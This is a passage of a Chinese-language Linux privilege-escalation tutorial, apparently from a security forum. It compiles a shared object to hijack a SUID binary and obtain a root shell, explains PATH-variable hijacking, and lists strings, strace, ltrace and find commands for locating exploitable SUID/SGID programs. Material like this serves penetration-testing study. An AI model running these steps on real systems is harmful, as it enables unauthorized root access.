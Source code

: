 #### 5.进行编译

```php
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

![image-20210704112538615](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-29f3b05da32b2e4bce18be123687a00bdafadad2.png)

#### 6.运行可执行的SUID以获得根壳：

```php
 /usr/local/bin/suid-so
```

![image-20210704112616418](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1e497e976e8b66964af1911ed396ed301c6e5cba.png)

路径环境变量
------

### 前言

PATH 环境变量包含外壳应尝试查找程序的目录列表。  
如果程序尝试执行其他程序，但只指定程序名称，而不是其完整（绝对）路径，则外壳将搜索 PATH 目录，直到找到为止。  
由于用户完全控制其 PATH 变量，我们可以告诉外壳首先在目录中查找我们可以写到的程序。

### 查找易受攻击的程序

如果程序尝试执行其他程序，该程序的名称可能嵌入到可执行文件中，作为string。  
我们可以在可执行文件上运行strings以查找strings。  
我们还可以使用策略(strace)来查看程序的执行情况。另一个称为"Itrace"的程序也可能有用。

#### 对文件运行字符串：

```php
strings /path/to/file   
```

#### 针对命令运行策略：

```php
strace -v -f -e execve <command> 2>&1 | grep exec
```

#### 对命令运行 跟踪 ：

```php
ltrace <command>
```

### 实操

#### 1.在目标上查找SUID/SGID文件 ：

```php
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
